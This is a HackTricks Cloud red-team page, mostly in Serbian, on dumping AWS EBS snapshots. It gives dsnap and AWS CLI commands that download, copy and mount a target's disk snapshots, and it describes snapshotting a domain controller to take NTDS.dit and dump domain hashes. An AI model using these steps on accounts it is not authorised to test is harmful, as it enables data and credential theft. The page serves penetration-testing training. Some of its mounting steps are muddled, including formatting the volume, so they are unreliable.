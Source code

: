 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Provera snimka lokalno
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Napomena** da `dsnap` neće omogućiti preuzimanje javnih snimaka. Da biste to zaobišli, možete napraviti kopiju snimka u svom ličnom nalogu i preuzeti to:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Za više informacija o ovoj tehnici pogledajte originalno istraživanje na [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Možete to uraditi sa Pacu koristeći modul [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

## Proveravanje snimka u AWS-u

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montirajte ga u EC2 VM pod vašom kontrolom** (mora biti u istoj regiji kao kopija rezervne kopije):

Korak 1: Novi volumen vaše omiljene veličine i tipa treba da se kreira odlaskom na EC2 –> Volumeni.

Da biste mogli da izvršite ovu radnju, pratite ove komande:

* Kreirajte EBS volumen koji će se priključiti EC2 instanci.
* Osigurajte da su EBS volumen i instanca u istoj zoni.

Korak 2: Opcija "priključi volumen" treba da se izabere desnim klikom na kreirani volumen.

Korak 3: Instanca iz tekstualnog okvira instanci treba da se izabere.

Da biste mogli da izvršite ovu radnju, koristite sledeću komandu:

* Priključite EBS volumen.

Korak 4: Prijavite se na EC2 instancu i nabrojite dostupne diskove koristeći komandu `lsblk`.

Korak 5: Proverite da li volumen ima podataka koristeći komandu `sudo file -s /dev/xvdf`.

Ako izlaz gornje komande prikazuje "/dev/xvdf: data", to znači da je volumen prazan.

Korak 6: Formatirajte volumen u ext4 datotečni sistem koristeći komandu `sudo mkfs -t ext4 /dev/xvdf`. Alternativno, možete koristiti i xfs format koristeći komandu `sudo mkfs -t xfs /dev/xvdf`. Imajte na umu da treba da koristite ili ext4 ili xfs.

Korak 7: Kreirajte direktorijum po vašem izboru da montirate novi ext4 volumen. Na primer, možete koristiti naziv "newvolume".

Da biste mogli da izvršite ovu radnju, koristite komandu `sudo mkdir /newvolume`.

Korak 8: Montirajte volumen u direktorijum "newvolume" koristeći komandu `sudo mount /dev/xvdf /newvolume/`.

Korak 9: Promenite direktorijum u "newvolume" direktorijum i proverite prostor na disku da biste potvrdili montiranje volumena.

Da biste mogli da izvršite ovu radnju, koristite sledeće komande:

* Promenite direktorijum u `/newvolume`.
* Proverite prostor na disku koristeći komandu `df -h .`. Izlaz ove komande treba da prikazuje slobodan prostor u "newvolume" direktorijumu.

Možete to uraditi sa Pacu koristeći modul `ebs__explore_snapshots`.

## Proveravanje snimka u AWS (koristeći cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Svaki AWS korisnik koji ima dozvolu **`EC2:CreateSnapshot`** može ukrasti hešove svih korisnika domena kreiranjem **snapshot-a Kontrolera domena**, montirajući ga na instancu koju kontroliše i **izvozeći NTDS.dit i SYSTEM** registry hive datoteku za korišćenje sa Impacketovim secretsdump projektom.

Možete koristiti ovaj alat za automatizaciju napada: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ili možete koristiti neku od prethodnih tehnika nakon kreiranja snapshot-a.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
